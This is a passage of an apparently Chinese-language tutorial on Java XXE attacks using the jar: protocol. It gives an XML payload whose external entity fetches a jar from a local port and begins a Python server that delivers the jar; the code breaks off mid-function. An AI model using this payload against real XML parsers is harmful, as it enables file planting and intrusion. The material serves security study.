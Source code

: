 
有了这个源码以后，我们需要在本地建立一个 xml 文件 ，我取名为 student.xml 

**student.xml**

```xml
<!DOCTYPE convert [ 
<!ENTITY  remote SYSTEM "jar:http://localhost:9999/jar.zip!/wm.php">
]>
<convert>&remote;</convert>
```

**目录结构如下图：**

[![img](assets/1667437014060-5795addd-5e8d-44be-8a68-6cb66c26c9a4.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/测试代码的目录结构.png)此处输入图片的描述

可以清楚地看到我的请求是向自己本地的 9999 端口发出的，那么9999 端口上有什么服务呢？实际上是我自己用 python 写的一个 TCP 服务器

**示例代码：**

**sever.py**

```python
import sys 
import time 
import threading 
import socketserver 
from urllib.parse import quote 
import http.client as httpc 

listen_host = 'localhost' 
listen_port = 9999 
jar_file = sys.argv[1]

class JarRequestHandler(socketserver.BaseRequestHandler):  
    def handle(self):
        http_req = b''
        print('New connection:',self.client_address)
        while b'\r\n\r\n' not in http_req:
            try:
                http_req += self.request.recv(4096)
                print('Client req:\r\n',http_req.decode())
                jf = open(jar_file, 'rb')
                contents = jf.read()
                headers = ('''HTTP/1.0 200 OK\r\n'''
                           '''Content-Type: application/java-archive\r\n\r\n''')
                self.request.sendall(headers.encode('ascii'))
```